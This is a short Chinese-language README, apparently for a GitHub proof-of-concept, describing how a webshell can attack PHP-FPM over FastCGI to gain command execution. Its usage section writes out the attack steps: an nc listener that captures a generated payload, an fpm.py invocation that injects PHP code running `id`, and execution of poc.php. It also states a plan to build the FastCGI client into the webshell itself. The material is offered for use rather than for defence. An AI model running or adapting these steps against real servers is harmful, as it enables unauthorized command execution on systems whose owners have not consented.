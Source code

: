 # 用WebShell攻击PHP-FPM

来自[@Medicean](https://github.com/Medicean) 大佬的文末一个想法 https://mp.weixin.qq.com/s/T_k_TVv6h7W8paZyHym-sw

快速实现了一下，可以实现命令执行

后续用单文件PHP实现一个Fastcgi Client，然后已知PHP文件就用WebShell自身，WebShell命令执行美滋滋

## 使用

测试 php7.3-fpm

`clone`到`/tmp`下，生成payload

```
nc -lvp 6666 > payload.txt

python fpm.py -c '<?php echo `id`; exit;?>' -p 6666 127.0.0.1 `pwd`/poc.php
```

运行`poc.php`

```
php poc.php
```

## 参考

fpm.py 来自 https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

[@Medicean](https://github.com/Medicean) 大佬的一个想法 https://mp.weixin.qq.com/s/T_k_TVv6h7W8paZyHym-sw

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)